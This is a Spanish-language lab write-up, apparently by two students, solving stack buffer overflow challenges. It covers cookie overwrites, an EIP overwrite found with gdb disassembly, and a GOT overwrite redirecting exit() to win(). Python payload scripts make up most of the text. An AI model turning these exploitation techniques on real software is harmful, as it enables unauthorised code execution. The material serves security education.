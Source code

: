 # Escalera Pedro, Iman Federico

### Ej 3

#### Challenge 01:
resuelto en clase

#### Challenge 02: 
La unica diferencia es que ahora debemos ingresar el valor que le queremos ingrsar a la cookie directamente en hexa de esta forma: 

    f.write('A'*70 + '\x04' + '\x03' + '\x02' + '\x01')

ya que en ASCII estos valores representan caracteres de control SOH, STX, ETX  y EOT.

Por lo que se hace imposible llegar desde texto a los valores requeridos.

#### Challenge 01 y 02:

La combinacion de los challenges 1 y 2 es facil:

ej1 : 

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADCBA

ej2:

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

ej 1 y 2:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADCBA

#### Challenge 03: 
Este challenge no se puede solucionar de la misma forma que los anteriores. 

El problema aqui es que gets no puede leer todo el contenido ya que luego de llenar el buf con 60 A no encotramos con que debemos mandar un 0x00 lo cual le indica a gets que debe dejar de leer, rompiendo asi nuestra forma de solucion.

Lo que nos queda por hacer en este caso es pisar el registro eip el cual contiene el Program counter, con la direccion del print dentro del if. para hacer esto solo debemos llenar el buf con 60 A lugo la cookie con 4 A, luego el registro ebp con 4 A mas obteniendo asi 68 A y luego ingresa la direccion de memoria deseada para asi poder modificar el registro eip.
La direccion de memoria deseada se puede obtener dentro de gdb con el comando: 

    disas main
obteniendo: 

    0x08048438 <+0>:     push   %ebp

    0x08048439 <+1>:     mov    %esp,%ebp

    0x0804843b <+3>:     sub    $0x40,%esp

    0x0804843e <+6>:     movl   $0x0,-0x4(%ebp)

    0x08048445 <+13>:    lea    -0x40(%ebp),%eax

    0x08048448 <+16>:    push   %eax

    0x08048449 <+17>:    call   0x8048320 
    <gets@plt>
   
    0x0804844e <+22>:    add    $0x4,%esp
   
    0x08048451 <+25>:    cmpl   $0xd0a00,-0x4
    (%ebp)
   
    0x08048458 <+32>:    jne    0x8048467 <main+47>
   
    0x0804845a <+34>:    push   $0x8048544
   
    0x0804845f <+39>:    call   0x8048330 <puts@plt>
   
    0x08048464 <+44>:    add    $0x4,%esp
   
    0x08048467 <+47>:    mov    $0x0,%eax
   
    0x0804846c <+52>:    leave  
   
    0x0804846d <+53>:    ret   

Obteniendo en esta linea la direccion deseada:

    0x0804845a <+34>:    push   $0x8048544

Finalmente pasamos usamos la libreria struct con el metodo pack y la flag "<i" para pasar al 
la direccion de memoria en formato 	
little-endian(<) y como un int (i)

#### Challenge 01 y 03:

Aplicando la misma logica anterior podemos formar la solucion o con el sigueinte script:

    from struct import pack
    f = open('ej3', 'wb')
    f.write('A'*68+pack('<i', 0x0804845a)+'A'*8+'DCBA')
    f.close()

#### Challenge 02 y 03:

Para resolver estos challenge, cambiamos la solucion del 2 y lo solucionamos igual que el 3
es decir, pisamos el eip del challenge 2 para obtener un payload mas grande y asi poder meter la solucion del 3 en el mismo payload sin superposiciones. 


    f = open('ej2y3', 'wb')
    f.write('A'*68+pack('<i', 0x0804845a)+'A'*6+pack('<i', 0x0804845a))

#### Challenge 6

Lo primero que intentamos en este challenge fue causar un buffer overflow y cambiar la return address de la funcion, pero ahi notamos que al final de main no habia un return si no que habia un exit(-1) asi que este metodo no nos iba a funcionar. Sabiendo que podiamos overflowear el buffer 2 nos pusimos a ver que podiamos pisar y nos dimos cuenta que el puntero hacia buf1 se guarda en el stack asi que podiamos poner cualquier direccion de la memoria en ese puntero. Viendo que luego se hace un strcpy y combinado a lo que vimos recien nos dimos cuenta que podiamos escribir cualquier direccion de la memoria poniendo lo que queriamos escribir al principio de buffer2 y poniendo la direccion a donde lo queremos escribir justo al final del payload que le pasamos que cause apenas un buffer overflow (ya que el puntero esta inmediatamente despues en el stack). Sabiendo esto nos pusimos a pensar de que nos podia servir, sabiamos que la parte .text del programa suele estar protegida contra escritura pero viendo el resumen en cutter vimos que el binario tenia RELRO parcial y como encontramos en [este post](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html) la seccion .got.plt se puede escribir. Leyendo .got.plt podemos ver que tiene informacion de donde se encuentra la funcion strcpy y la funcion exit. Esta ultima es la que nos interesa ya que escribiendo en esa direccion la direccion de memoria de la funcion win podiamos forzar al programa a llamar a win() cuando creia que estaba llamando a exit(-1). Luego fue cuestion de analizar bien las direcciones en gdb y armar el payload lo cual hicimos de la siguiente manera:

    f = open('ej6','wb')
    f.write('\xd9\x84\x04\x08' + '\xf9\x84\x04\x08' + 'A' * 376 + '\x14\xa0\x04\x08')

donde 0x0804a014 es la direccion de .got.plt donde se encuentran los datos de exit y 0x080484d9 hasta 080484d9 es mas o menos donde se encuentra win y es lo que se escribe cuando corre strcpy con el puntero pisado anteriormente.

Finalmente las combinaciones fueron bastante faciles ya que el buffer este es bastante grande asi que no se pisa con cosas de los otros ejercicios ni al principio(que los otros ni lo usan) ni al final (ya que tienen distintos tamaños tamaños de buffer ). Utilizamos los siguientes codigos para generar los payloads respectivos:

    Ej 6 y 1
    f = open('ej6y1','wb')
    f.write('\xd9\x84\x04\x08' + '\xf9\x84\x04\x08' + 'A'*72 + 'DCBA' + 'A' * 300 + '\x14\xa0\x04\x08')

    Ej 6 y 2
    f = open('ej6y2','wb')
    f.write('\xd9\x84\x04\x08' + '\xf9\x84\x04\x08' + 'A' * 62 + '\x04\x03\x02\x01' + 'A' * 310 + '\x14\xa0\x04\x08')

    Ej 6 y 3
    f = open('ej6y3','wb')
    f.write('\xd9\x84\x04\x08' + '\xf9\x84\x04\x08' + 'A'*60 + '\x5a\x84\x04\x08' + 'A' * 312 + '\x14\xa0\x04\x08')

    Ej 6_1y2
    f = open('ej6_1y2','wb')
    f.write('\xd9\x84\x04\x08' + '\xf9\x84\x04\x08' + 'A' * 62 + '\x04\x03\x02\x01' +'A'* 6+ 'DCBA' + 'A' * 300 + '\x14\xa0\x04\x08')

    Ej 6_1y3
    f = open('ej6_1y3','wb')
    f.write('\xd9\x84\x04\x08' + '\xf9\x84\x04\x08' + 'A' * 60 + '\x5a\x84\x04\x08' +'A'* 8 + 'DCBA' + 'A' * 300 + '\x14\xa0\x04\x08')

    Ej 6_2y3
    f = open('ej6_2y3','wb')
    f.write('\xd9\x84\x04\x08' + '\xf9\x84\x04\x08' + 'A' * 60 + '\x5a\x84\x04\x08' +'A'* 6 +  '\x5a\x84\x04\x08' + 'A' * 302 + '\x14\xa0\x04\x08')
